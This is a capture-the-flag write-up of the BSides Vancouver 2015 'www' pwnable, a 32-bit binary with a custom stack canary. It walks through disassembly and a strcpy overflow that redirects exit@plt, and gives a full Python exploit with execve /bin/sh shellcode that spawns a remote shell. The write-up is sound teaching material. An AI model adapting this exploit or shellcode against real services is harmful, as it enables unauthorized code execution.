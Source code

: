 ```yaml
---
layout: post
title: "BSides Vancouver 2015 WWW"
date: 2015-03-18 19:17:55 -0400
author: [barrebas]
comments: true
categories: [bsides vancouver]
---
```


### Solved by barrebas

After solving `sushi`, there were plenty of pwnables left to choose from. Next up was `www`!

`www` was a 200 point challenge and consisted of a 32-bit Linux binary. After dealing with `sushi`, I decided to inspect the binary in `gdb-peda` right away:

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Again, no protections in place. Running the binary reveals what it is trying to do:

```bash
gdb-peda$ r
Welcome to www! Please give me two strings to have them echoed back to you!
buffers at 0xffffd4c4 and 0xffffd3c4, ready for input!
AAAAAA
BBBBBB
AAAAAA

BBBBBB

Stack canary created: >tC[hbw]
Better luck next time, eh?
```

Looks like it has two buffers on the stack and a custom stack canary implementation. The vulnerable function is called `copybuf`:

```
0804873c <copybuf>:
 804873c:   55                      push   ebp
 804873d:   89 e5                   mov    ebp,esp
 804873f:   83 ec 38                sub    esp,0x38
 8048742:   c7 44 24 08 09 00 00    mov    DWORD PTR [esp+0x8],0x9
 8048749:   00 
 804874a:   c7 44 24 04 68 9d 04    mov    DWORD PTR [esp+0x4],0x8049d68 ; canary
 8048751:   08 
 8048752:   8d 45 eb                lea    eax,[ebp-0x15]
 8048755:   89 04 24                mov    DWORD PTR [esp],eax
 8048758:   e8 c3 fe ff ff          call   8048620 <strncpy@plt>
 804875d:   8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048760:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048764:   8d 45 db                lea    eax,[ebp-0x25]                ; first buffer is copied here
 8048767:   89 04 24                mov    DWORD PTR [esp],eax
 804876a:   e8 41 fe ff ff          call   80485b0 <strcpy@plt>
 804876f:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]       ; ebp+0xc = second input
 8048772:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax          
 8048776:   8b 45 08                mov    eax,DWORD PTR [ebp+0x8]       ; overflow this pointer with exit@got
 8048779:   89 04 24                mov    DWORD PTR [esp],eax
 804877c:   e8 2f fe ff ff          call   80485b0 <strcpy@plt>
 ; check_cookie:
 8048781:   c7 44 24 04 68 9d 04    mov    DWORD PTR [esp+0x4],0x8049d68 ; canary
 8048788:   08 
 8048789:   8d 45 eb                lea    eax,[ebp-0x15]
 804878c:   89 04 24                mov    DWORD PTR [esp],eax
 804878f:   e8 bc fd ff ff          call   8048550 <strcmp@plt>
 8048794:   89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8048797:   83 7d f4 00             cmp    DWORD PTR [ebp-0xc],0x0
 804879b:   74 18                   je     80487b5 <copybuf+0x79>        ; if canary check fails, call exit@plt -> overwrite
 804879d:   c7 04 24 30 8a 04 08    mov    DWORD PTR [esp],0x8048a30
 80487a4:   e8 17 fe ff ff          call   80485c0 <puts@plt>
 80487a9:   c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 80487b0:   e8 2b fe ff ff          call   80485e0 <exit@plt>
 ; cookie_OK:
 80487b5:   c9                      leave  
 80487b6:   c3                      ret    
```

In short, the program takes two inputs and uses `strcpy()` to copy these to the stack. However, the saved return address on the stack is protected from overwriting by a custom stack canary. The way around is to exploit the buffer overflow to overwrite on of the arguments to the second `strcpy()`: the pointer to the second buffer. If we control that pointer, we basically have a write-what-where. I choose to overflow the pointer to the second buffer with the address of `exit@plt`. This way, after overwriting the stack canary, the program will try to exit, but `exit@plt` will point to attacker-controlled shellcode on the stack. 

Putting it all together:

```python
from socket import *
import struct, telnetlib, re

def p(x):
    return struct.pack('<L', x)

def pQ(x):
    return struct.pack('<Q', x)
    
s=socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 17284))
s.connect(('www.termsec.net', 17284))

buf = s.recv(200)

m = re.findall('(0x[0-9a-f]+)', buf)
buf1_addr = int(m[0], 16)
buf2_addr = int(m[1], 16)

print "[~] buf1: 0x%lx" % buf1_addr
print "[~] buf2: 0x%lx" % buf2_addr

# first input will overwrite the pointer that is used for the second strcpy 
payload = ""
payload += "A"*45       # padding
payload += p(0x8049d10) # we'll overwrite exit@plt
payload += p(buf2_addr) # restore this on the stack, otherwise it will be partially overwritten

s.send(payload + "\n")

# second input, used in second strcpy. By now, that strcpy will call:
# strcpy(0x8049d10, buffer2)
payload = ""
payload += p(buf2_addr+4)   # overwrite exit@plt with the address where the shellcode starts
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s.send(payload + "\n")
s.recv(200)

print "[!] enjoy your shell"

t = telnetlib.Telnet()
t.sock = s
t.interact()
s.close()
```

```bash
bas@tritonal:~/tmp/yvrctf/www-200$ python ./www.py
[~] buf1: 0xbfa660d4
[~] buf2: 0xbfa65fd4

[!] enjoy your shell
id
/bin//sh: 1: id: not found
cat flag.txt
flag{K33P_ST4T1C_L1K3_W00L_F4BR1C}
```

